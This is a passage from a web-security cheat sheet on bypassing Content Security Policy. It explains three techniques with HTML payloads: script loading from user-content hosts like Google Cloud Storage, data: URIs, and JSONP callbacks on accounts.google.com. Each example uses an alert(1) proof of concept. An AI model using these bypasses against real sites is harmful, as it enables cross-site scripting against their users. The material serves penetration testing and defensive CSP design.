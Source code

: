 ## Allowed domains that host user contents

If `script-src` or `object-src` allows a domain where everyone can host arbitrary content it is possible to inject arbitrary content.

For example, in the snippet below the CSP allows `https://storage.googleapis.com` in `scripts-src`. It makes possible the uploading of a payload to GCP Cloud Storage and achieving arbitrary JavaScript execution.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src https://storage.googleapis.com;">
</head>
<body>
    <script src=https://storage.googleapis.com/path/to/malicious/script.js></script>
</body>
```

## data: scheme

If `default-src`, `script-src`, `frame-src` or `object-src` allows the `data:` scheme it is possible to execute arbitrary JavaScript code by injecting a tag.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src data:;">
</head>
<body>
    <script src=data:text/javascript,alert(1)></script>
    <iframe src='data:text/html,<script defer="true" src="data:text/javascript,alert(1)"></script>'></iframe>
    <iframe srcdoc='<script src="data:text/javascript,alert(1)"></script>'></iframe>
    <!-- Firefox only -->
    <object data="javascript:alert(1)">
</body>
```

## JSONP

JSONP APIs work with the `callback=` parameter, which specifies a function to process the data sent along with it. If there is no function name validation in JSONP, it is possible to inject a custom callback function and execute arbitrary JavaScript code.

JSONP APIs can be used to bypass a Content Security Policy. For example, the following CSP allows script loading from `https://accounts.google.com`. Since `https://accounts.google.com` hosts JSONP endpoints, they can be used to execute arbitrary code.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src https://accounts.google.com;">
</head>
<body>
    <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
</body>
```
